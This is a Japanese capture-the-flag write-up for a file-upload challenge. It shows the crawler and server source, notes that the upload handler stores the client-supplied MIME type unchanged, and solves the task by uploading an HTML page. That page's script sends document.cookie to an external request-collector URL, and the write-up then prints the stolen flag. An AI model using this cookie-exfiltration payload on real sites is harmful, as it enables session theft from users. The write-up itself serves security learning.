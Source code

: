 # Server Side Upload:Introduction:20pts
Are you familiar with the Feature to upload files to object storage via a server?  

- [Target](https://d1kesanhfxrlwb.cloudfront.net/)  

**source code**  

- [Web Application](https://drive.google.com/file/d/1EhS4wDU59xd3WLGLjIKX5aaHsT9OLDh6/view?usp=drive_link)  
- [Crawler](https://drive.google.com/file/d/1dTAdzuOVypB-i58qJchVN5s2tmJnCTxK/view?usp=drive_link)  

[https://d1kesanhfxrlwb.cloudfront.net/](https://d1kesanhfxrlwb.cloudfront.net/)  

# Solution
URLと二つのソースが配布される。  
アクセスするとファイルアップロードフォームと、クローラーへURLを渡すフォームがある。  
![site.png](site/site.png)  
クローラのソースは以下のようであった。  
```ts
import { launch } from "puppeteer";
import { uploadToS3 } from "./s3";

const puppeteerArgs = [
  "--disable-dev-shm-usage",
  "--no-sandbox",
  "--disable-setuid-sandbox",
  "--disable-gpu",
  "--no-gpu",
  "--disable-default-apps",
  "--disable-translate",
  "--user-agent=mini-ctf-reporter/1.0",
  "--single-process",
];

export const crawler = async (url: string) => {
  const browser = await launch({
    headless: true,
    args: puppeteerArgs,
  });

  const page = await browser.newPage();
  // DOMAIN is Challenge Page Domain
  page.setCookie({
    name: "flag",
    value: process.env.FLAG || "flag{dummy}",
    domain: process.env.DOMAIN || "example.com",
  });
  await page.goto(url);
  await new Promise((resolve) => setTimeout(resolve, 500));
  const bodyHandle = await page.$("body");
  const html = await page.evaluate((body) => {
    if (!body) {
      return "HTML is empty";
    }
    return body.innerHTML;
  }, bodyHandle);
  const path = new URL(url).pathname;
  await uploadToS3(`delivery/${path.split("/").pop()}`, Buffer.from(html));
  await browser.close();
};
```
指定されたドメイン(問題サーバドメイン)のみをクロールでき、Cookieにフラグがある。  
つまりXSSでCookieを盗む問題のようだ。  
サーバのソースの主要部分は以下のようであった。  
```ts
~~~
const server = fastify();
server.register(fastifyMultipart);

server.register(fastifyStatic, {
  root: path.join('/app', 'public'),
});

const port = 3000;
const stage = process.env.STAGE || 'dev';

server.get('/', async (request, reply) => {
  return reply.sendFile('index.html');
});

server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    ContentType: data.mimetype,
  });

  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
~~~
```
ファイルの`data.mimetype`がそのまま`PutObjectCommand`されているので以下のようなHTMLをアップロードし、XSSすればよい。  
```html
<!DOCTYPE html>
<html>
<head>
    <title>XSSS</title>
</head>
<body>
    <h1>XSSS</h1>
    <script>
        fetch("https://enmz6ozs7du1q.x.pipedream.net/?satoki="+document.cookie);
    </script>
</body>
</html>
```
すると`https://d1kesanhfxrlwb.cloudfront.net/upload/f3851830-c6cb-466e-8419-dbe66a5a1677`のようなURLが降ってきた。  
これをクローラへ報告すると以下のようなリクエストが届く。  
```
GET
/?satoki=flag=flag{bfe061955a7cf19b12ff0f224e88d65a470e800a}
```
flagが得られた。  

## flag{bfe061955a7cf19b12ff0f224e88d65a470e800a}